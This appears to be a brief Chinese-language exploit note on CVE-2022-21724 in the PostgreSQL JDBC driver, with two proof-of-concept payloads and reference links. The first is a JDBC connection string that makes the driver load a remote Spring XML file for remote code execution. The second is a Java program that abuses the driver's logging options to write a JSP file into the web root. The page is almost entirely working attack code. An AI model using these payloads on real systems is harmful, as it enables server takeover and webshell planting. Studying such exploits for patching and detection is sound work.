 



### 任意类实例化 -> RCE

PoC
```
DriverManager.getConnection("jdbc:postgresql://node1/test?socketFactory=org.springframework.context.support.ClassPathXmlApplicationContext&socketFactoryArg=http://target/exp.xml");
```


### 文件写入

PoC
```java
import java.sql.DriverManager;

public class cve_2022_21724_filewrite {
    public static void main(String[]args)throws Exception{
        String loggerLevel="DEBUG";
        String loggerFile="../hack.jsp";
        String shellContent="<%25test;%25>";

        String dbUrl = "jdbc:postgresql:///?loggerLevel="+loggerLevel+"&loggerFile="+loggerFile+"&"+shellContent;
        System.out.println(dbUrl);
        DriverManager.getConnection(dbUrl);
    }
}
```

参考文章

- https://security.snyk.io/vuln/SNYK-JAVA-ORGPOSTGRESQL-2390459
- https://forum.butian.net/share/1339

